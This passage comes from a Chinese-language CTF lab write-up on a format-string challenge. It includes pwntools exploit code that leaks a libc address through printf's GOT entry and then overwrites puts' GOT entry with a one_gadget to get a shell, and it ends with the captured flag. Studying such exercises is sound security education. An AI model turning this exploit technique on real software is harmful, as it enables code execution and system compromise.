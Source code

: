 运行，结果如下：

![image-20240728224258130.png](https://s2.loli.net/2024/07/29/jsaKU3qtSnzMcm2.png)

### Leaking libc address

有了前面两道 Task 的经验，这次 leak 可以算很顺利了：

```python
# Second payload: leaking libc address
payload2 = b'%7$sKKKK' + p64(printf_got)
conn.sendlineafter(b"what's your message: ", payload2)
recv = conn.recvuntil(b'KKKK')
recv = recv.strip(b'KKKK')
recv = recv.ljust(8,b'\0')
printf_addr = u64(recv)
libc_addr = printf_addr - printf_offset
log.success("printf_addr => 0x{:016X}".format(printf_addr))
log.success("libc_addr   => 0x{:016X}".format(libc_addr))
conn.interactive()
```

运行结果如下：

![image-20240728225353011.png](https://s2.loli.net/2024/07/29/5XrJbkKFaWAp3P9.png)

可以看到最终得到的 libc 地址为 `0x00007F3EDFC00000`

### Getting system shell

```python
# Third payload: getting system shell
pop_rdi_addr = 0x000000000002a3e5 + libc_addr
bin_sh_addr = next(libc.search('/bin/sh')) + libc_addr
system_addr = libc.symbols['system'] + libc_addr
one_gadget = 0xebc85 + libc_addr
payload3 = fmtstr_payload(6,{puts_got:one_gadget})
conn.sendlineafter(b"what's your message: ", payload3)
conn.interactive()
```

运行效果如下：

![image-20240728225703142.png](https://s2.loli.net/2024/07/29/ybIgmqwYWkE7XUQ.png)

成功获取 shell 的控制权。最终得到 flag 为 `AAA{i_l0v3_fmtstr_payload_H0p3_u_Loveit_2}` ，然而我自我感觉也许可能不会很 love it :D 卡了我两天（怨）

# Task4 fsb-stack

本题目的完整代码为 attachment 中的 `pwnlab2_task4_code.py`

### Preparation
